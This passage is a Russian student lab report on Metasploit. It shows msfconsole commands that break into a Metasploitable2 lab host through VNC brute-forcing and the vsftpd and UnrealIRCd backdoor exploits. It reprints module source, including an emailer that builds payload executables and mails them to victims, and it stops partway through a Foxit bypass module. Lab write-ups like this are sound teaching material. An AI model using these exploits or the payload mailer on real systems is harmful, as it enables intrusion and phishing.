\documentclass[10pt,a4paper]{report}
\usepackage[utf8]{inputenc}
\usepackage[russian]{babel}
\usepackage{amsmath}
\usepackage{amsfonts}
\usepackage{amssymb}
\usepackage{graphicx}
\renewcommand{\thesection}{\arabic{section}}
\setcounter{totalnumber}{10}
\setcounter{topnumber}{10}
\setcounter{bottomnumber}{10}
\renewcommand{\topfraction}{1}
\renewcommand{\textfraction}{0}
\author{Евсеев Дмитрий}
\title{Лабораторная работа №5.\\
	Инструмент тестирования на проникновение\\
	Metasploit}

\begin{document}
\maketitle
\tableofcontents
\pagebreak

\section{Ход работы}

\subsection{Структура}

Главной составляющей Metasploit является библиотека Rex. Она требуется для операций общего назначения: работы с сокетами, протоколами, форматирования текста, работы с кодировками и подобных. На ней базируется библиотека MSF Core, которая предоставляет базовый функционал и «низкоуровневый» API. Его использует библиотека MSF Base, которая, в свою очередь, предоставляет API для плагинов, интерфейса пользователя и модулей. Модули делятся на несколько типов, в зависимости от предоставляемой функциональности:

\begin{itemize}
	\item Exploit — код, эксплуатирующий определенную уязвимость на целевой системе (например, переполнение буфера);
	\item Payload — код, который запускается на целевой системе после того, как отработал эксплойт (устанавливает соединение, выполняет шелл-скрипт и прочее);
	\item Post — код, который запускается на системе после успешного проникновения (например, собирает пароли, скачивает файлы);
	\item Encoder — инструменты для обфускации модулей с целью маскировки от антивирусов;
	\item NOP — генераторы NOP’ов. Это ассемблерная инструкция, которая не производит никаких действий. Используется, чтобы заполнять пустоту в исполняемых файлах, для подгонки под необходимый размер;
	\item Auxiliary — модули для сканирования сети, анализа трафика и так далее;
	\item Shellcode — Шеллкод. Используется как полезная нагрузка эксплойта, обеспечивающая доступ к командной оболочке ОС.
\end{itemize}
	
\subsection{Запуск Metasploit}

Результат запуска Инструмента представлен на рисунке \ref{Img:1}.

\begin{figure}[h!]	
	\center{
\includegraphics[width=0.8\linewidth]{Img/1}}
	\caption{Окно запуска msfconsole.}
	\label{Img:1}
\end{figure}
\pagebreak

Получение списка доступных ключей запуска выполняется командой help. Это продемонстрировано на рисунке \ref{Img:2}

\begin{figure}[h!]	
	\center{
\includegraphics[width=0.8\linewidth]{Img/2}}
	\caption{Ключи запуска msfconsole.}
	\label{Img:2}
\end{figure}

Рассмотрим основные команды msfconsole

\begin{itemize}
	\item use — выбрать определенный модуль для работы с ним;
	\item back — операция, обратная use: перестать работать с выбранным модулем и вернуться назад;
	\item show — вывести список модулей определенного типа;
	\item set— установить значение определенному объекту;
	\item run — запустить вспомогательный модуль после того, как были установлены необходимые опции;
	\item info — вывести информацию о модуле;
	\item search — найти определенный модуль;
	\item check — проверить, подвержена ли целевая система уязвимости;
	\item sessions — вывести список доступных сессий.
\end{itemize}

Команды по работе с эксплойтом:

\begin{itemize}
	\item show exploits - получение списка всех доступных эксплоитов.
	\item show options - получение списка опций, которые можно использовать. Каждый эксплоит или payload имеет свой собственный набор опций, который можно использовать при работе с ними.
	\item exploit - запускает эксплоит. Есть другая версия этой команды - rexploit, которая перезагружает код запущенного эксплоита и запускает его вновь.
	\item set RHOST <hostname\_or\_ip> - указываем этой командой Metasploit определенный хост в сети для его изучения. Хост можно задать как по его имени и по IP-адресу.
	\item set RPORT <host\_port> - задает для Metasploit порт удаленной машины, по которому фреймворк должен подключиться к указанному хосту
	\item set payload <generic/shell\_bind\_tcp> - команда указывает имя payload’а, который будет использоваться.
\end{itemize}

Команды по работе с БД:

\begin{itemize}
	\item db\_connect - подключение к БД.
	\item db\_status - проверка состояния БД.
	\item db\_host - просмотр списка хостов в файле БД.
	\item db\_del\_host - удаление хоста из БД.
	\item db\_rebuild\_cache - пересборка кэша.
\end{itemize}
	
\section{Armitage}

Armitage - графическая оболочка для фреймворка Metasploit. С помощью нее можно представлять хосты-цели в визуальном режиме, получать подсказки о рекомендуемых эксплоитах в каждом конкретном случае. Для опытных пользователей Armitage предлагает возможности удаленного управления и совместной работы с Metasploit.

Запустим и протестируем работу Armitage. При запуске оставляем параметры по умолчанию.

\begin{figure}[h!]	
	\center{
\includegraphics[width=0.8\linewidth]{Img/3}}
	\caption{Внешний вид Armitage.}
	\label{Img:3}
\end{figure}
	
\section{GUI веб-клиент}
Не удалось запустить msfweb на данной версии ОС Kali Linux 4.3 с metasploit v4.11.7-

\section{Подключение к VNC-серверу, получение доступа к консоли}
Изучим ОС metasploitable2 на уязвимости с помощью команды.\\
\begin{verbatim}
nmap -sV 192.168.100.8
\end{verbatim}

\begin{figure}[h!]
	\begin{center}
		
\includegraphics[width=0.65\textwidth]{Img/4}
		\caption{Сканирование с помощью nmap.}
		\label{Img:4}
	\end{center}
\end{figure}

VNC использует порт 5900. Название сервиса VNC (protocol 3.3).

Пытаемся найти эксплойты
\begin{verbatim}
search "VNC (protocol 3.3)
\end{verbatim}

\begin{figure}[h!]
	\begin{center}
		
\includegraphics[width=0.65\textwidth]{Img/5}
		\caption{Результат поиска}
		\label{Img:5}
	\end{center}
\end{figure}

Настраиваем и запускаем эксплоит
\begin{verbatim}
use auxiliary/scanner/vnc/vnc_login
set RHOSTS 192.168.100.8
exploit
\end{verbatim}

\begin{figure}[h!]
	\centering
	
\includegraphics[width=\textwidth]{Img/6}
	\caption{Результат работы vnc\_login}
	\label{Img:6}
\end{figure}

Теперь, зная пароль, с помощью TightVNC подключаемся к атакуемому компьютеру.
\begin{figure}[h!]
	\centering
	
\includegraphics[width=\textwidth]{Img/7}
	\caption{Подключение к атакуемому компьютеру}
	\label{Img:7}
\end{figure}

\newpage
\section{Получение списка директорий в общем доступе по протоколу SMB}
Получить список директорий в общем доступе по протоколу SMB можно с помощью smb\_enumshares.\\
Настраиваем и запускаем эксплоит
\begin{verbatim}
use auxiliary/scanner/smb/smb_enumshares
set RHOSTS 192.168.100.8
set THREADS 2
run
\end{verbatim}

\begin{figure}[h!]
	\centering
	
\includegraphics[width=\textwidth]{Img/8}
	\caption{Результат работы smb\_enumshares.}
\end{figure}

Получили список директорий, находящихся в общем доступе.

\section{Получение консоли с использованием уязвимости в vsftpd}
Для данной уязвимости воспользуемся готовым эксплоитом vsftpd\_234\_backdoor.
Настраиваем и запускаем эксплоит
\begin{verbatim}
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.100.8
exploit
\end{verbatim}

\begin{figure}[h!]
	\centering
	
\includegraphics[width=\textwidth]{Img/9}
	\caption{Результат работы vsftpd\_234\_backdoor.}
\end{figure}

Доступ получен, попробуем выполнить любую команду, например, ls.

\subsection{Получение консоли с использованием уязвимости в irc}
Для данной уязвимости воспользуемся готовым эксплоитом unreal\_ircd\_3281\_backdoor.
Настраиваем и запускаем эксплоит
\begin{verbatim}
use exploit/unix/irc/unreal_ircd_3281_backdoor
set RHOST 192.168.100.8
exploit
\end{verbatim}

\begin{figure}[h!]
	\centering
	
\includegraphics[width=\textwidth]{Img/10}
	\caption{Результат работы  unreal\_ircd\_3281\_backdoor.}
\end{figure}

Доступ получен, попробуем выполнить любую команду, например, uname.

\subsection{Armitage Hail Mary}
Armitage Hail Mary предназначен для применения всех эксплоитов к заданному хосту

\begin{figure}[h!]
	\centering
	
\includegraphics[width=\textwidth]{Img/11}
	\caption{Процесс сканирования.}
\end{figure}

\begin{figure}[h!]
	\centering
	
\includegraphics[width=\textwidth]{Img/12}
	\caption{Результат сканирования Hail Mary.}
\end{figure}

\subsection{Изучение скриптов}

Файлы находятся в директории /usr/share/metasploit-framework/modules.
Структура файлов примерно одинакова:
\begin{itemize}
	\item{Зависимости}
	\item{Класс}
\end{itemize}
В каждом классе обязательно наличие метода initialize(), в который происходит инициализация.


\subsubsection{client/smtp/emailer.rb}

Предназначен для автоматизированной отправки сообщений электронной почты по протоколу smtp.


\begin{verbatim}
##
# This module requires Metasploit: http://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##


require 'msf/core'
require 'yaml'


class Metasploit3 < Msf::Auxiliary

#
# This module sends email messages via smtp
#
include Msf::Exploit::Remote::SMTPDeliver
include Msf::Exploit::EXE

def initialize(info = {})
super(update_info(info,
'Name'           => 'Generic Emailer (SMTP)',
'Description'    => %q{
This module can be used to automate email delivery.
This code is based on Joshua Abraham's email script for social
engineering.
},
'License'        => MSF_LICENSE,
'References'     =>
[
[ 'URL', 'http://spl0it.org/' ],
],
'Author'         => [ 'et <et[at]metasploit.com>' ]))

register_options(
[
OptString.new('RHOST', [true, "SMTP server address",'127.0.0.1']),
OptString.new('RPORT', [true, "SMTP server port",'25']),
OptString.new('YAML_CONFIG', [true, "Full path to YAML Configuration file",
File.join(Msf::Config.data_directory,"emailer_config.yaml")]),
], self.class)

# Hide this option from the user
deregister_options('MAILTO')
deregister_options('SUBJECT')
end

def load_yaml_conf
opts = {}

File.open(datastore['YAML_CONFIG'], "rb") do |f|
yamlconf = YAML::load(f)

opts['to']                   = yamlconf['to']
opts['from']                 = yamlconf['from']
opts['subject']              = yamlconf['subject']
opts['type']                 = yamlconf['type']
opts['msg_file']             = yamlconf['msg_file']
opts['wait']                 = yamlconf['wait']
opts['add_name']             = yamlconf['add_name']
opts['sig']                  = yamlconf['sig']
opts['sig_file']             = yamlconf['sig_file']
opts['attachment']           = yamlconf['attachment']
opts['attachment_file']      = yamlconf['attachment_file']
opts['attachment_file_type'] = yamlconf['attachment_file_type']
opts['attachment_file_name'] = yamlconf['attachment_file_name']

### payload options ###
opts['make_payload']         = yamlconf['make_payload']
opts['zip_payload']          = yamlconf['zip_payload']
opts['msf_port']             = yamlconf['msf_port']
opts['msf_ip']               = yamlconf['msf_ip']
opts['msf_payload']          = yamlconf['msf_payload']
opts['msf_filename']         = yamlconf['msf_filename']
opts['msf_change_ext']       = yamlconf['msf_change_ext']
opts['msf_payload_ext']      = yamlconf['msf_payload_ext']
end

opts
end

def load_file(fname)
buf = ''
File.open(fname, 'rb') do |f|
buf = f.read
end

buf
end

def run

yamlconf = load_yaml_conf

fileto               = yamlconf['to']
from                 = yamlconf['from']
subject              = yamlconf['subject']
type                 = yamlconf['type']
msg_file             = yamlconf['msg_file']
wait                 = yamlconf['wait']
add_name             = yamlconf['add_name']
sig                  = yamlconf['sig']
sig_file             = yamlconf['sig_file']
attachment           = yamlconf['attachment']
attachment_file      = yamlconf['attachment_file']
attachment_file_type = yamlconf['attachment_file_type']
attachment_file_name = yamlconf['attachment_file_name']

make_payload         = yamlconf['make_payload']
zip_payload          = yamlconf['zip_payload']
msf_port             = yamlconf['msf_port']
msf_ip               = yamlconf['msf_ip']
msf_payload          = yamlconf['msf_payload']
msf_filename         = yamlconf['msf_filename']
msf_change_ext       = yamlconf['msf_change_ext']
msf_payload_ext      = yamlconf['msf_payload_ext']

tmp = Dir.tmpdir

datastore['MAILFROM'] = from

msg       = load_file(msg_file)
email_sig = load_file(sig_file)

if (type !~ /text/i and type !~ /text\/html/i)
print_error("YAML config: #{type}")
end

if make_payload
attachment_file = File.join(tmp, msf_filename)
attachment_file_name = msf_filename

print_status("Creating payload...")
mod = framework.payloads.create(msf_payload)
if (not mod)
print_error("Failed to create payload, #{msf_payload}")
return
end

# By not passing an explicit encoder, we're asking the
# framework to pick one for us.  In general this is the best
# way to encode.
buf = mod.generate_simple(
'Format'  => 'raw',
'Options' => { "LHOST"=>msf_ip, "LPORT"=>msf_port }
)
exe = generate_payload_exe({
:code => buf,
:arch => mod.arch,
:platform => mod.platform
})

print_status("Writing payload to #{attachment_file}")
# XXX If Rex::Zip will let us zip a buffer instead of a file,
# there's no reason to write this out
File.open(attachment_file, "wb") do |f|
f.write(exe)
end

if msf_change_ext
msf_payload_newext = attachment_file
msf_payload_newext = msf_payload_newext.sub(/\.\w+$/, ".#{msf_payload_ext}")
File.rename(attachment_file, msf_payload_newext)
attachment_file = msf_payload_newext
end

if zip_payload
zip_file = attachment_file.sub(/\.\w+$/, '.zip')
system("zip -r #{zip_file} #{attachment_file}> /dev/null 2>&1");
attachment_file      = zip_file
attachment_file_type = 'application/zip'
else
attachment_file_type = 'application/exe'
end

end


File.open(fileto, 'rb').each do |l|
next if l !~ /\@/

nem = l.split(',')
name = nem[0].split(' ')
fname = name[0]
lname = name[1]
email = nem[1]


if add_name
email_msg_body = "#{fname},\n\n#{msg}"
else
email_msg_body = msg
end

if sig
data_sig = load_file(sig_file)
email_msg_body = "#{email_msg_body}\n#{data_sig}"
end

print_status("Emailing #{name[0]} #{name[1]} at #{email}")

mime_msg = Rex::MIME::Message.new
mime_msg.mime_defaults

mime_msg.from = from
mime_msg.to = email
datastore['MAILTO'] = email.strip
mime_msg.subject = subject

mime_msg.add_part(Rex::Text.encode_base64(email_msg_body, "\r\n"), type, "base64", "inline")

if attachment
if attachment_file_name
data_attachment = load_file(attachment_file)
mime_msg.add_part(Rex::Text.encode_base64(data_attachment, "\r\n"), attachment_file_type, "base64", "attachment; filename=\"#{attachment_file_name}\"")
end
end

send_message(mime_msg.to_s)
select(nil,nil,nil,wait)
end

print_status("Email sent..")
end

end
\end{verbatim}

Из конфигурационного yaml файла читаются необходимые инициализационные параметры, а так же список параметров для писем.
Далее подготавливается каждое письмо (заполня.тся данные об адресате, теме, содержании, вложении и пр.) и происходит отправка.


\subsubsection{parser/unattend.rb}

Предназначен для парсинга Unattend файлов в заданной директории.


\begin{verbatim}
##
# This module requires Metasploit: http://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

require 'msf/core'
require 'rex/parser/unattend'

class Metasploit3 < Msf::Auxiliary

def initialize(info={})
super( update_info( info,
'Name'        => 'Auxilliary Parser Windows Unattend Passwords',
'Description' => %q{
This module parses Unattend files in the target directory.

See also: post/windows/gather/enum_unattend
},
'License'       => MSF_LICENSE,
'Author'        =>
[
'Ben Campbell',
],
'References'    =>
[
['URL', 'http://technet.microsoft.com/en-us/library/ff715801'],
['URL', 'http://technet.microsoft.com/en-us/library/cc749415(v=ws.10).aspx'],
['URL', 'http://technet.microsoft.com/en-us/library/c026170e-40ef-4191-98dd-0b9835bfa580']
],
))

register_options([
OptPath.new('PATH', [true, 'Directory or file to parse.']),
OptBool.new('RECURSIVE', [true, 'Recursively check for files', false]),
])
end

def run
if datastore['RECURSIVE']
ext = "**/*.xml"
else
ext = "/*.xml"
end

if datastore['PATH'].ends_with('.xml')
filepath = datastore['PATH']
else
filepath = File.join(datastore['PATH'], ext)
end

Dir.glob(filepath) do |item|
print_status "Processing #{item}"
file = File.read(item)
begin
xml = REXML::Document.new(file)
rescue REXML::ParseException => e
print_error("#{item} invalid xml format.")
vprint_line(e.message)
next
end

results = Rex::Parser::Unattend.parse(xml)
table = Rex::Parser::Unattend.create_table(results)
print_line table.to_s unless table.nil?
print_line
end
end
end

\end{verbatim}

Парсит Unattend файлы в формате xml в заданной дирректории с помощью функции Rex::Parser::Unattend.parse.

\subsubsection{pdf/foxit/authbypass.rb}

Использует уязвимость в Foxit Reader build 1120 для запуска exe файлов без необходимости подтверждения со стороны жертвы.

\begin{verbatim}
##
# This module requires Metasploit: http://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

require 'msf/core'
require 'zlib'

class Metasploit3 < Msf::Auxiliary

include Msf::Exploit::FILEFORMAT

def initialize(info = {})
super(update_info(info,
'Name'           => 'Foxit Reader Authorization Bypass',
'Description'    => %q{
This module exploits a authorization bypass vulnerability in Foxit Reader
build 1120. When a attacker creates a specially crafted pdf file containing
